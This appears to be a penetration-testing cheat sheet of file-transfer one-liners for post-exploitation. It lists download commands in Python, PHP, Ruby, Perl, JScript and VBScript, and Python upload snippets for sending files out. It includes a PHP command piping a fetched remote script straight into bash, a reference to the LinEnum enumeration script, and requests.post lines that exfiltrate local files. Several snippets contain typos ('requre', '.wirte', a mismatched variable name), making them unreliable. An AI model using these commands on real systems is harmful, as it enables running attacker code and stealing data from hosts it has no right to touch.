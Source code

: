 
# Downloading

## Python

### Python 2
```python
python2.7 -c 'import urllib; urllib.urlretrieve ("[Target_File_URL]", "[Output_File]")'
```

### Python 3
```python
python3 -c 'import urllib.request; urllib.request.urlretrieve("[Target_File_URL]", "[Output_File]")'
```


## PHP

### PHP Download with File_get_contents()
```php
php -r '$file = file_get_contents("[Target_File_URL]"); file_put_contents("[Output_File]",$file);'
PH```

### PHP Download with Fopen()
```php
php -r 'const BUFFER = 1024; $fremote = fopen("[Target_File_URL]", "rb"); $flocal = fopen("[Output_File]", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

### PHP Download and Pipe to Bash
```php
php -r '$lines = @file("[Target_File_URL]"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```


## Ruby
```ruby
ruby -e 'requre "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("[Target_File_URL]")))'
```


## Perl
```perl
perl -e 'use LWP::Simple; getstore("[Target_File_URL]", "Output_File");'
```


## JavaScript
### wget.js
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

### Download using JS and cscript.exe
```powershell
cscript.exe /nologo wget.js [Target_File_URL] [Output_File]
```


# VBScript

## wget.vbs
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
	.type = 1
	.open
	.wirte xHttp.responseBody
	.savetofile WScript.Arguments.Item(1), 2
end with
```

### Download using VBScript and cscript.exe
```powershell
cscript.exe /nologo wget.vbs [Target_File_URL] [Output_File]
```


# Uploading

## Python3 uploadserver Module
```python
python3 -m uploadserver
```

### Python One-Liner
```python
python3 -c 'import requests; requests.post("[Target_File_URL]", files= {"files":open("[Input_File]", "rb")})'
```

```python
# Import the requests module
import requests

# Define the target URL where we'll upload the file   ---  http://IP:port/file
URL = "[Target_File_URL]"

# Define the file we want to read, open it, and save it in a variable
file = open("[Input_File]", "rb")

# Use a requests POST request to upload the file
r = requests.post(url,files={"files":file})
```